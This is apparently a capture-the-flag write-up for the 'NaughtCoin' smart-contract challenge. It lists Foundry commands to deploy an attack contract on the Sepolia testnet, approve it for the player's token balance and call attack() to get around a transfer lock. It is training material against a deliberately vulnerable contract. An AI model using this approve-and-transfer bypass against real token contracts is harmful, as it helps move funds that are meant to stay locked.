# NaughtCoin Solution

Deploy `NaughtCoinHack`:

```
forge create NaughtCoinHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Retrieve the `balance` and approve `NaughtCoinHack`:

```
cast call `instanceAddress` "balanceOf(address)" `sepoliaPublicKey` --rpc-url $SEPOLIA_RPC_URL
cast to-dec `balanceHex`
cast send `instanceAddress` "approve(address, uint256)" `naughtCoinHackAddress` `balance` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Call the `attack()` function:

```
cast send `naughtCoinHackAddress` "attack(address)" `ìnstanceAddress` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
